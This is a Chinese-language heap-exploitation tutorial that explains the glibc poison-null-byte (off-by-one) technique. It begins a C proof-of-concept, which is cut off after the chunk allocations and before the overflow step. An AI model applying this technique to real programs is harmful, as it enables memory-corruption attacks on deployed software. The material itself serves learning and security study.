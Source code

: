 # 简介
[PWN入门（3-2-1）-堆中的off-by-one](https://www.yuque.com/cyberangel/rg9gdm/gg4bw4)

poison_null_byte和off-by-one本质都是相同的只是名字不同罢了，这里我们再结合libc-2.27.so和free源码再来仔细的看一下。这里再多说几句，poison_null_byte的本质是malloc滥用向前合并和向后合并造成的，其最核心的东西是mchunk_size中的PREV_INUSE和mchunk_prev_size。

# 漏洞影响版本
所有glibc malloc版本

# POC
## POC源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>


int main()
{
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);

	printf("Welcome to poison null byte 2.0!\n");
	printf("Tested in Ubuntu 18.04 64bit.\n");
	printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;
	void *barrier;

	printf("We allocate 0x500 bytes for 'a'.\n");
	a = (uint8_t*) malloc(0x500);
	printf("a: %p\n", a);
	int real_a_size = malloc_usable_size(a);
	printf("Since we want to overflow 'a', we need to know the 'real' size of 'a' "
		"(it may be more than 0x500 because of rounding): %#x\n", real_a_size);

	/* chunk size attribute cannot have a least significant byte with a value of 0x00.
	 * the least significant byte of this will be 0x10, because the size of the chunk includes
	 * the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xa00);

	printf("b: %p\n", b);

	c = (uint8_t*) malloc(0x500);
	printf("c: %p\n", c);

	barrier =  malloc(0x100);
	printf("We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.\n"
		"The barrier is not strictly necessary, but makes things less confusing\n", barrier);
```